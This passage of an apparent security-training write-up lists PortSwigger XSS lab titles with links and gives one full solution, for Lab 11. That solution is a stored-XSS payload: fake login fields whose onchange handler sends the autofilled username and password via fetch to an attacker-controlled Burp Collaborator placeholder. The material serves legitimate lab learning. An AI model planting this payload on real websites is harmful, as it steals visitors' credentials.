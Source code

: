 ### Lab 07 - DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression

### Lab 08 - Reflected DOM XSS

https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected

### Lab 09 - Stored DOM XSS

https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored

### Lab 10 - Exploiting cross-site scripting to steal cookies

https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies

### Lab 11 - Exploiting cross-site scripting to capture passwords

https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords

In this lab, we see how we can steal a victim's credentials by exploiting browsers **autofill** functionality.

*Read more about this technique: https://ancat.github.io/xss/2017/01/08/stealing-plaintext-passwords.html*

The stored XSS is again located in the comment section of the application. Our goal is to create a fake `input` field that will induce the victim's browser to autofill credentials that match for the website's domain name.

Then, we exfiltrate the content by combining the `onchange` event with a call to the [fetch](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch) API to a domain under our control. This will send us the victim's credentials as soon as the input field is filled with data.

**Solution**

```
<b>Username:</><br>
<input name=username id=username>
<b>Password:</><br>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

### Lab 12 - Exploiting stored XSS to perform CSRF

https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf
